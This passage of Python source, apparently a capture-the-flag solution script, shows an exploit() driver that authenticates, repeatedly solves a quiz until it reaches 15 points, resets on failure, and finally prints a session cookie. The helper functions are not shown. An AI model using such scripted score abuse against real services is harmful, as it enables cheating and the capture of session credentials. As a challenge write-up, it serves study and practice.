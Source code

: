 ```python

            index = (index + 1) % len(answers)
            count = k+1+i*len(answers)

def exploit():
    global points
    global sync
    random_sleep = 30 # default 30s
    init_sessions()
    print("initiated sessions")
    authenticate()
    res = input("Reset points?")
    if res.lower() == 'y':
        reset(0)
        print('Reset done')
    else:
        print('No reset')
    try:
        while points < 15:
            try:
                # resetting points
                solve_quiz()
            except Exception as e:
                print(e)
                reset(0)
                random_sleep = random.random()*60
            finally:
                if points < 15:
                    # slowing down the requests to not ddos the server
                    print(f'Sleeping for {random_sleep:.2f} seconds')
                    time.sleep(random_sleep)
        
        print('Won')
    except KeyboardInterrupt:
        pass
    except Exception as e:
        print(e)
    finally:
        print('Exiting...')
    r = make_get_session_cookie(0)
    sync.finish_all()
    # print session cookie
    handler_get_session_cookie(r, 0)

if __name__ == '__main__':
    exploit()


```